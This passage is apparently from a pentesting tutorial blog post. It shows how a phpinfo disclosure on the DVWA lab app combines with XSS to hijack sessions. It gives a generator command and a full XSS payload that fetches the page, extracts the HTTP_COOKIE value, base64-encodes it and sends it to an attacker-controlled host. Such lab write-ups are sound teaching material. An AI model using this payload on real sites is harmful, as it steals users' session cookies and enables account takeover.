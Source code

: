 will be sending us their cookies associated with *DVWA*, including the session cookie and therefore we will have achieved a session hijacking.

Obviously this is a test environment and no one is going to click on that link except me, and even if someone did click on it nothing would happen because that IP address is a private IP address. But imagine this situation in a public website of an important company and an attacker sending a link like this using social engineering through Twitter, Linkedin, Facebook... and sending the user's cookies to an own server. 

Do you still think that PHP info page disclosure is not an important vulnerability?

<div id='section-id-2-3'/>
## 2.3. Using my Github tool to generate an improved payload

As you can see, the payload used in the previous section is not quite accurate since it returns not only cookies but also a lot of non-relevant HTML code. That is why I have uploaded the following tool to Github

[Link to the tool PHP-info-cookie-stealer](https://github.com/HackCommander/PHP-info-cookie-stealer)

To avoid repeating the same thing, if you want to know how the tool works you can see the README.md and you can give a star to the project :blush:. In this case, cloning the repo and running the following command

{% include codeHeader.html %}
```console
./generate-javascript-payload.sh http://192.168.240.128/dvwa/phpinfo.php http://192.168.240.129/
```

you will get the following XSS payload

{% include codeHeader.html %}
```html
<script>fetch('http://192.168.240.128/dvwa/phpinfo.php').then(response=>response.text()).then(data=>{const startString='<tr><td class="e">HTTP_COOKIE </td><td class="v">';const endString='</td></tr>';const startIndex=data.indexOf(startString)+startString.length;const endIndex=data.indexOf(endString,startIndex);const cookies=data.substring(startIndex,endIndex);const encodedCookies=btoa(cookies);fetch('http://192.168.240.129/'+'?encodedCookies='+encodedCookies,{method:'GET'});});</script>
```
This payload is much more accurate than the one used in the previous section because it sends only the cookies to the web server, without all the non-relevant HTML code. Repeating all the process of the previous section but executing this payload instead of the other one, you will receive a GET request like this

![](/assets/images/2022-11-12-pentesting-article-1/user-cookies-exfiltrated-improved-payload.png)

The encoded cookies are sent through the encodedCookies GET parameter, so decoding it with the burpsuite decoder we can get the user cookies

![](/assets/images/2022-11-12-pentesting-article-1/user-cookies-exfiltrated-decoded-improved-payload.png)
